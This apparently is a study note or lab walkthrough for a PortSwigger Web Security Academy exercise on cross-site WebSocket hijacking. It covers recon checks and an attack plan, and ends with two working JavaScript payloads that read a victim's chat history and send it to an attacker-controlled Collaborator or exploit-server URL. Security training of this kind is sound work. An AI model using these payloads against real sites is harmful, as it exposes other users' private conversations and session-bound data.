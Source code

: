If the chat history persists, it likely uses a session cookie to track the live chats. Check if this session token has the SameSite flag:

![[SameSiteNone.png]]

Attempt to resend the READY message and check if the chat history returns:

![[READYChat.png]]

Also check that the /chat endpoint has no unpredictable token values:

![[GETChat.png]]

Launch an attack:

1. Create an exploit page that contains a payload
2. JS will open the WebSocket, send a READY message, grab the chat history and send it back to us
3. Send link to victim
4. Victim opens connection and session cookie is sent along
5. Chat history sent to web server

As an example, the payload below can be used to retrieve sensitive information from the application that belongs to another user. When we send the "READY" command to the server via the WebSocket message, all the past chat messages will be received. 

When the messages are received from the server, they will be sent to attacker's server. This is possible as cross-site WebSocket hijacking attacks, allows for 2-way interaction, unlike standard CSRF attacks.

Host the following in the exploit server to send a POST request to Collaborator:

```html
<script>
    var ws = new WebSocket('wss://VULNERABLE-WEBSOCKET-URL/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Or the following to send a GET request with base64 encoded data to the exploit server:

```html
<script>
var ws = new WebSocket(
  "wss://0a29006304c9f2fa838619a4002d0016.web-security-academy.net/chat"
);

ws.onopen = function() {
  ws.send("READY");
};

ws.onmessage = function (event) {
  fetch(
    "https://exploit-0a1c004e04fcf26c83b0185d016700dc.exploit-server.net/exploit?message=" +
      btoa(event.data)
  );
};
</script>
```

